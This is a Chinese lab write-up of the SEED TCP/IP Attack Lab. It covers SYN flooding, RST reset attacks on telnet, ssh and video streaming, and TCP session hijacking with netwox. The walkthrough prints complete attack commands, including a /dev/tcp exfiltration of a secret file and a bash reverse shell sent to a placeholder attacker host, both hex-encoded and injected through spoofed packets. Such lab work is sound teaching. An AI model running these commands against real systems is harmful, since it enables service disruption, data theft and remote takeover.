# TCP/IP Attack Lab

## 任务1：SYN洪泛攻击

本任务(任务1、2)作者博客: https://blog.csdn.net/lanpesk

在客户端与服务器建立TCP时，首先要进入一个SYN与应答的阶段。这里是我们经常说的三次握手建立连接。具体的内容请自行了解，这里不再赘述。还是赘述一下吧。

> 在TCP中，客户端和服务端通信之前需要先建立一一个TCP连接。服务瑞首先需要进入监听状态以准备接收连接请求(通过调用listen()函数)，而客户端则需要发出连接请求来启动握手协议。
>
> 握手协议由三部分组成，如图所示。首先，客户端发送一个叫作SYN的特殊包给服务端，它使用一个随机产生的数字x作为初始序列号。因为TCP头部的SYN位被置为1,因此这个包叫作SYN包。其次，服务端收到SYN包后会回复一个 SYN + ACK 包(SYN和ACK位都被置为1)。服务端选择它自己随机生成的数字y作为初始序列号。再次，客户端收到这个包后再发出一个ACK包以结束这次握手。
>
> 当服务端收到初始SYN包（图a中标记为②的地方）时，它使用一个叫作传输控制块(TCB)的特殊数据结构来存储连接的信息。到这一步，连接还没有完全建立，因此称为半打开连接，即只有客户端到服务端方向的连接被确认，而服务端到客户端方向的连接还没有初始化。服务端将TCB存储在一个只用于存放半打开连接的队列中。在服务端从客户端得到ACK包后，它会将TCB拿出队列。
>
> 如果最后的ACK包没有到达，服务端会重新发送SYN+ACK包。如果最后的ACK包一直收不到，存储在半打开连接队列中的TCB最终会因超时而被丢弃。



> 图b描述了SYN泛洪攻击的整个过程。
>
> 在拒绝服务dos攻击中。如果一个攻击者想要搞垮一个强大的服务器，它需要寻找服务器的弱点，并集中力量攻击这个弱点。半开放队列便是这样一个弱点。
>
> 在三次握手连接完成之前，服务器将所有半打开连接存储在一个队列中。这个队列的容量是有限的。如果攻击者可以快速填满这个队列，那么服务器将没有空间来存储任何半打开连接的TCB,它将不会再接受任何新的SYN包，即使它的CPU和宽带还没有达到上限，结果就是任何人都无法连接服务器。
>
> 要填满半打开连接的队列，攻击者只需要做以下事情:
>
> > ①连续发送SYN包给服务器;
> > ②不要完成三次握手协议的第三步，因为每一个 SYN包都会使一个 TCB被插入队列中，所以这一步会消耗掉队列的空间。
>
> 一旦记录已经存在于队列中，则希望它存在的时间尽可能得长。以下几种事件会导致TCB记录被移出队列:
>
> >  第一，如果客户端完成了三次握手协议，则记录将会被移出队列，因为它不再是半打开连接了;
> >
> > 第二，如果一个记录在队列中超时，它将会被从队列中删除，超时的时间段可能会比较长(例如40s);
> >
> > 第三，如果服务器收到了一个针对半打开连接的RST包，相应的TCB也会被移出队列。
>
> 当使用SYN泛洪攻击服务器时，攻击者需要使用随机的源IP地址，否则攻击很容易被防火墙屏蔽。当服务器回复SYN+ACK包时，回复可能会在网络的某个地方被丢弃，因为伪造的IP地址可能没有分配给任何计算机或者计算机此时没有上线。因此，半打开连接将会在队列中停留直到超时。如果一一个 SYN+ACK包到达了一个真实的计算机，该计算机将会发送一个TCP RST包给服务器，导致服务器将TCB记录移出队列。实践中会看到很多RST包。攻击必须和这些RST包竞争，如果慢了，就无法填满半打开连接的队列。

当服务器收到客户端发来的SYN连接请求时，会回复一个应答报文给客户端，此时服务器会将此连接放入半连接队列中，等待来自客户端的应答。这个半连接队列并不是无限长的，而是有限的。在我们的ubuntu虚拟机中，可以使用如下来命令查看对应的队列最大长度。

```bash
systcl -q net.ipv4.tcp_max_syn_backlog
```


这里可以看到我们的最大队列长度时512，也就是我们的最多可以保存512个半连接，如果队列满了，那么新来的连接请求将不会被响应，其他用户的正常请求将不会被返回。

使用`netstat -tno`可以来查看当前系统的活跃的连接。

```bash
netstat -tno
```


当前我们没有处在半连接状态的连接，半连接的State为SYN_Recv。

为了发起SYN洪泛攻击，我们需要能够发送伪造TCP数据包的程序或工具。我们可以自己使用rowsocket编写也可以使用现成的网络工具，这里我们使用netwox来进行我们的攻击操作。

攻击需要另一台主机来进行，这里我开启了一个虚拟机来作为主机。使用的时kali系统，也是linux的一种。

如果没有安装netwox，可以直接在控制台使用apt安装。


在netwox中查找和syn相关的工具，可以看到76号工具就是我们的SYN洪泛工具。

首先我们查找虚拟机对应的ip地址。

在控制台中输入`ifconfig`


被攻击机的eth0是我们的默认网卡，其ip地址为192.168.202.134。

```bash
ifconfig -a
```


攻击机的ip地址为192.168.202.128。

|   分工   | 机器名称 |       IP        |
| :------: | :------: | :-------------: |
|  被攻击  |   seed   | 192.168.202.134 |
| Attacker |   Kali   | 192.168.202.128 |
|   游客   |   seed   |    not need     |


首先观察连接是否可达，使用`ping`命令。

```
ping 被攻击IP
```


连接是通畅的。接下来我们发起SYN洪泛攻击。攻击虚拟机的telnet程序，这个程序使用的是23端口。

```bash
sudo netwox 76 -i 被攻击IP -p 端口 -s raw
```


注意这里的工具启动需要sudo操作。

这样我们的攻击就已经发起，回到另一台虚拟中查看。



可以看到这里多了很多的SYN_RECV状态的连接，就是我们的半连接。我们来尝试连接此服务器的telnet服务。由于这个服务收到syn洪泛攻击，应该不能正常服务。



可惜的是，我们依旧能够使用telnet服务。

这是由于操作系统自身是有保护措施的。在ubuntu12.04中有一种保护措施SYNcookies是默认开启的。他会过滤掉不正常的SYN请求包，从而使服务可以正常运作。它的原理是，在TCP服务器收到TCP SYN包并返回TCP SYN+ACK包时，不分配一个专门的数据区，而是根据这个SYN包计算出一个cookie值。在收到TCP ACK包时，TCP服务器再根据那个cookie值检查这个TCP ACK包的合法性。如果合法，再分配专门的数据区进行处理未来的TCP连接。

这里在虚拟机中关闭SYNcookies。使用如下命令来关闭。

```bash
sysctl -w net.ipv4.tcp_syncookies=0
```


再次发动攻击，并等待一段时间，或者调整虚拟机的synbacklog的长度。

```bash
telnet 被攻击IP
```


可以看到，这次我们的telnet服务无法再正常工作了。


关闭攻击后，服务又可用了。

## 任务2：对telnet与shh的RST复位攻击


在TCP连接要断开的时候，服务器端或者客户端会发送一个FIN包给对方(取决于谁发起断开)，之后TCP进入断开流程，也就是我们的四次挥手。注意到，只要收到了FIN就会进入断开流程，但是后续的数据接着到来，没有得到正确的断开响应，TCP连接还会继续。

但是RST包却没那么多事，复位请求可以直接破坏一个建立连接的TCP连接。所以我们可以通过发送伪造的RST包，来断开TCP连接。



这里依旧是使用两台虚拟机。一个作为被攻击机，一个作为攻击机。

两机的IP地址在上方实验都以展示。

TCP连接有着很强的顺序性，这是协议本身为了满足数据的可靠与顺序到达造成的。也就是说，我们发送的包，在字节序上，要严格遵守当前的TCP连接。否则会被当做无效包被丢弃，我们的攻击也就无法成功。

一个TCP包重要的有两部分，一个是端口号，端口号可以代表通信的程序。一个是字节序，表示下一个期望的字节序，这是保证数据准确的，可被接收的重要要求。

这里先对telnet进行攻击。是的

我们需要用到wireshark这个网络嗅探工具。


打开我们的wireshark，在过滤器中填入telnet，点击左上角的鲨鱼鳍，开始对网络进行监听

由于存在DNS解析等一系列的混杂数据，这里我将也过滤。

监听开始后，使用telnet建立连接。



> 攻击是否成功依赖于序列号。放入伪造包中的序列号应该是接收方等待的号码，如果序列号太小，攻击将不成功。如果序列号太大，根据RFC793。只要在接收方窗口大小内就是合法的，当使用较大的序列号时，对连接没有影响，需要用准确的序列号才能成功。

可以看到这里就抓取到了我们与另一台虚拟机建立telnet连接的数据包。

选择最后一个包，打开其中的tcp内容。


这里面可以看到下一个字节序，这里你的数据可能是比较小的，是相对字节序。

右键的`protocol preference`中可以取消相对字节序。

注意这里的数据包时对方到我们的，所以这个下一字节序，是期望我们发送的下一字节开始是从这个字节序开始。

所以，我们构建rowsocket，在tcp头中，写入这个字节序，再设置RST位，设置号源IP，源端口，目的IP，目的端口，就可以发送，来进行我们的攻击。

这里我们使用更简单的方法，采用netwox进行攻击。


可以看到，78号工具正是我们需要的。

NetWox工具78的使用：

```bash
Title: Reset every TCP packets
Usage: netwox 78 [-d device] [-f filter] [-s spoofip] [-i ips]
Parameters:
    -d|--device device device name {Eth0}
    -f|--filter filter pcap filter
    -s|--spoofip spoofip IP spoof initialzation type
    {linkbraw}
    -i|--ips ips limit the list of IP addressed to
    reset {all}
```

这里我们直接使用他。


当我们再操作telnet时，显示连接被强行终止。连接中断。


> SSH的TCP连接是加密的。但他只加密TCP数据,而不加密TCP头，即这个加密是在网络层之上的传输层中进行的。因为TCP复位攻击只需要伪造TCP头部，不需要加载任何数据，因此TCP复位攻击可以成功。

使用ssh与虚拟机建立连接。


再次启动攻击，观察ssh连接状态。


可以看到，ssh连接被关闭。

## 任务 3：TCP RST 对视频流应用的攻击

> 让我们通过在当今广泛使用的应用程序上进行实验来使 TCP RST 攻击更有趣。 我们在这个任务中选择视频流应用程序。 对于这个任务，您可以选择您熟悉的视频流网站（bilibili）。 大多数视频共享网站与客户端建立 TCP 连接，用于对视频内容进行流媒体。 攻击者的目标是破坏被攻击者和视频流媒体之间建立的 TCP 会话。 假设攻击者和被攻击者在同一个局域网中。 在下面，我们描述了用户（被攻击者）与一些视频流媒体网站之间的常见交互： 
>
> - 被攻击者在视频流媒体网站上浏览视频内容，并选择其中一个视频进行流媒体。 .
>
> - 通常，视频内容由不同的机器托管，所有视频内容都位于其中。 在被攻击者选择视频后，将在被攻击者机器和内容服务器之间建立用于视频流的 TCP 会话。 然后，被攻击者可以查看其选择的视频。 

对于本部分，seed原装的火狐无法观看视频，甚至都难以安装其他浏览器。

您的任务是通过破坏被攻击者和内容服务器之间的 TCP 连接来破坏视频流。您可以让被攻击者用户从另一台（虚拟)机器或与攻击者相同的(虚拟）机器浏览视频流站点。 在这里我们使用seed虚拟机攻击Ubuntu20（The seed is too spicy chicken,can't install any software)，当seed开始攻击后，Ubuntu20的视频便连接不上服务器，视频流的TCP连接中断。


对于本次实验，使用如下命令都可以实现中断： 

```bash
sudo netwox 78 -i 192.168.190.135

sudo netwox 78 --filter 'dst host 192.168.190.135'
```

|   身份   |      机器      |       ip        |
| :------: | :------------: | :-------------: |
|   用户   |     ubuntu20     | 192.168.136.135 |
|服务器|bilibili服务器|not need|
| 攻击者 | kali(本色出演) |    not need     |
|  观察者  |      seed      |    not need     |

由**Kali**发出攻击指令(普普通通的seed也可以，只要有netwox均可发起攻击)


发现**用户Ubuntu**视频播放中断



在**观察者Seed上**我们打开Wireshark来抓包分析。


WireShark黑色背景代表报文的各类错误，红色背景代表各类异常情景



<kbd>Ctrl </kbd>+ <kbd>C</kbd>终止攻击之后，Ubuntu20的视频流便恢复正常



然而，对于较新的视频，却可以不受干扰。可能是其在建立TCP连接后数据传输仅使用UDP的缘故。


但当我们尝试刷新时，便再无法通信了。因为其根本无法建立TCP通信


以下NetWox命令为来自192.168.190.135的每个数据包发出RST数据包

```bash
sudo netwox 78 --filter "src host 192.168.190.135" 
```

直接破坏了TCP请求，也能让别人看不了视频


## 任务 4：TCP会话劫持

> TCP 会话劫持攻击的目的是通过向会话注入恶意内容来劫持两个受害者之间现有的 TCP 连接（会话）。 如果此连 接是 telnet 会话，攻击者可以注入恶意命令（例如：删除重要文件）到此会话中，导致受害者执行恶意命令。下图描述了攻击是如何工作的。 在此任务中，您需要演示如何在两台计算机之间劫持 telnet 会话。 您的目标是 让 telnet 服务器运行来自您的恶意命令。 为了任务的简单性，我们假设攻击者和受害者在同一个局域网中。
>
> 注意：如果使用 Wireshark 观察网络流量，您应该注意，当 Wireshark 显示 TCP 序列号时，默认情况下，它显示相对序列号，这等于实际序列号减去初始序列号。 如果要查看数据包中的实际序列号，则需要右键单击Wireshark 输出的 TCP 部分，然后选择“Protocol Preference”。 在弹出窗口中，取消选中`"Relative Sequence Number and Window Scaling"`“相对序列号和窗口缩放”选项。 




本次的分工如下：（kali被踢了）

关于机器的选择，可以提前在服务器上执行下条命令（攻击者已经开启natcat监听）：

```bash
cat /home/seed/secret > /dev/tcp/攻击者IP/9090 
```

如果失败了再检查设备，或者更换设备。

|   身份   |  机器  |       ip        |
| :------: | :----: | :-------------: |
|   User   | ubuntu | 192.168.136.132 |
|  Server  | seed2  | 192.168.136.136 |
| Attacker |  seed  | 192.168.136.130 |

在Seed上，Attacker嗅探数据

```bash
ip.addr==用户IP&&ip.addr==服务器IP
```

如果`telnet: Unable to connect to remote host: Connection refused`可以尝试重启openbsd-inetd(都是用seed应该没有问题，kali可能会出问题)

```bash
sudo /etc/init.d/openbsd-inetd restart
```

User向Server发起连接请求，并成功

```bash
sudo telnet 服务器IP
```


制作**Seed2**服务器中的秘密信息，创建方式多种多样，成功即可。

```bash
touch secret

cat secret
```


转义攻击命令内容，此命令可以将seed2服务器中的secret内容输出到/dev/tcp/192.168.191.132/9090的文件中，但这是个虚拟文件，会重定向到攻击者虚拟机。

为此，我们在攻击机seed上创建监听端口。

```bash
nc -lv 9090
```


```python
python
# python2 seed
'\r cat /home/seed/secret > /dev/tcp/攻击者IP/9090 \r'.encode('hex')

# python3 ubuntu
'\r cat /home/seed/secret > /dev/tcp/攻击者IP/9090 \r'.encode("utf-8").hex()
```


```bash
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f3139322e3136382e3133362e3133302f39303930200d'
```

观察最后一个TCP包，像这种显然不是正确的，序列号（seq,ack）太小了，不是绝对序列号。

> 有时很难使用正确的序列号。尤其是当受害者依然在客户端进行输入时。这时可以做一个估计。例如，如果当前可以看到一个序列号 N，则可以在攻击时使用 N+100。只要这个序列号在服务器接收窗口的允许范围内。伪造数据就会被放在接收方缓冲区。受害者在客户端进行输入时，缺失的数据很快会被填充。攻击命令也会被执行。需要在伪造数据的开头放一个换行符（\r）否则攻击命令会和受害者输入的字符串联改变命令的含义。
>
> 实验中可以故意使用一个略大的一些的序列号，再发送一个数攻击包后服务器并不会马上得到机密内容，其要等待用户继续输入一些新的字符。直到达到攻击包使用的序列号，此时程序会立即收到机密内容，表明攻击成功，只要用户依然在使用telnet程序。攻击就可以成功。


进入`Edit preferences`-->  右侧边栏的`Pritocols`--> 下滑到` TCP`-->  取消`Relative sequence numbers`选项-->`OK`




> 此任务对应的 Net wox 工具编号为 40。这是这个工具的帮助屏幕的一部分。您还可以键入`“net wox40—— help”`以获得完整的帮助信息。 您可能还需要使用 Wireshark 来查找构建欺骗 TCP 数据包的正确参数。

netwox tool 40 的部分用法:

```shell
Title: Spoof Ip4Tcp packet
    Usage: netwox 40 [-l ip] [-m ip] [-o port] [-p port] [-q uint32] [-B]
    Parameters:
    -l|--ip4-src ip IP4 src {192.168.136.136}
    -m|--ip4-dst ip IP4 dst {192.168.136.137}
    -o|--tcp-src port TCP src {57341}
    -p|--tcp-dst port TCP dst {23}
    -q|--tcp-seqnum uint32 TCP seqnum (rand if unset) {104}
    -H|--tcp-data mixed_data mixed data
```

依次修改为本次TCP的参数，netwox 40需要root权限

```bash
sudo netwox 40 --ip4-src 192.168.136.132 --ip4-dst 192.168.136.136 --tcp-src 41754 --tcp-dst 23 --tcp-seqnum 1232486293 --tcp-acknum 615320578 --tcp-window 156 --tcp-data '0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f3139322e3136382e3133362e3133302f39303930200d'
```


在攻击机的监听端口，我们收到了secret的内容


WireShark也检测到了本次连接。



## 任务 5：使用 TCP 会话劫持创建反向shell

在任务4的TCP 会话劫持攻击中，攻击者不能直接在受害者机器上运行命令，因此接下来我们将通过会话劫持攻击运行反向 shell 命令。

> 当攻击者能够使用 TCP 会话劫持向受害者的机器注入命令时，他们对在受害者机器上运行一个简单命令不感兴趣；他们对运行许多命令感兴趣。 显然，通过 TCP 会话劫持运行这些命令是不方便的。 攻击者想要实现的是利用攻击设置后门，这样他们就可以利用这个后门方便地进行进一步的破坏。 
>
> 设置后门的一个典型方法是从受害者机器运行一个反向外壳，使攻击的外壳访问受害者机器。 反向 shell是在远程机器上运行的 shell 进程，连接回攻击者的机器。一旦成功，这将为攻击者提供了一种方便的方法来访问远程机器。如果我们成功设置反向 shell。 我们可以直接在**受害者机器**上运行命令(**seed2 服务器机器**)。

使用 netcat 监听连接


运行反向外壳


netcat(简称 nc)用于侦听端口 9090 上的连接。

> **标准输出设备**。在绘会话劫持中已经介绍了如何使用一个TCP伪设备重定向cat命令的输出到另一个主机的tcp服务中。为了得到反向shell，可以执行如下命令，即使用tcp为设备作为Bash程序的标准输出设备。
>
> ```bash
> /bin/bash -i > /dev/tcp/攻击者IP/9090
> ```
>
> **标准错误设备**。上面的命令是不够的。Bash程序的输出，不仅使用标准输出设备，也使用标准错误设备。因此，需要重定向标准错误设备到TCP伪设备，这可以通过在命令结尾附加`2>&1`来实现。在UNIX系统中，标准输入、输出以及错误设备分别由文件描述符0、1、2标识。通过重定向标准错误设备到文件描述符1，程序也可以使用标准输出设备来输出错误信息。因为标准输出设备已经重定向到tcp伪设备，因此Bash输出的所有货物信息也将会被发送到tcp连接更新后的命令如下：
>
> ```bash
> /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1
> ```
>
> **标准输入设备**。如果试图在攻击者端的shell程序中输入内容。不会得到任何反馈，这是因为缺少对shell设备的控制。因此，服务器中的shell程序依旧从本地输入设备中得到输入，这也是依然可以在服务器中输入命令的原因。为了能够让shell程序从TCP伪设备得到输入。可以在命令后附加符号，符号。这表示使用文本描述符为1的设备作为输入设备(文件描述符为0)。更新后的命令如下所示：
>
> ```absh
>  /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1
> ```

> `/bin/bash` 命令表示通常在受损服务器上执行的命令。 此命令有以下几个部分： 
>
> - `/bin/bash-i`：i 代表交互式，意思是 shell 必须是交互式的(必须提供 shell 提示)
>
> - `\>/dev/tcp/192.168.136.130/9090`：其作用是将 shell 的**输出**(stdout)重定向到 TCP 连接到 192.168.136.130(攻击机)的9090端口。 输出 stdout 用文件描述符编号 1 表示。
> - `0<&1`: 文件描述符 0 表示**标准输入**(stdin)。 这导致外壳的 stdin 从 tcp 连接中获得。
> - `2>&1`:文件描述符 2 表示**标准错误** stderr。 这导致错误输出被重定向到 TCP 连接

将命令转码

```bash
# python2
'\r /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1 \r'.encode('hex')

# python3
'\r /bin/bash -i > /dev/tcp/攻击者IP/9090 2>&1 0<&1 \r'.encode("utf-8").hex()
```

```bash
'0d202f62696e2f62617368202d69203e202f6465762f7463702f3139322e3136382e3133362e3133302f3930393020323e263120303c2631200d'
```

再次开始监听

```bash
nc -lv 9090
```

任务4的方式故技重施，用户与服务器先正常通讯一次（如，ls，whoami），再抓最后一个包，改数据


```bash
sudo netwox 40 --ip4-src 192.168.136.132 --ip4-dst 192.168.136.136 --tcp-src 41758 --tcp-dst 23 --tcp-seqnum 1028117725 --tcp-acknum 830188691 --tcp-window 501 --tcp-data '0d202f62696e2f62617368202d69203e202f6465762f7463702f3139322e3136382e3133362e3133302f3930393020323e263120303c2631200d'
```



发现攻击成功，主机的监听端口可以执行seed2的命令。



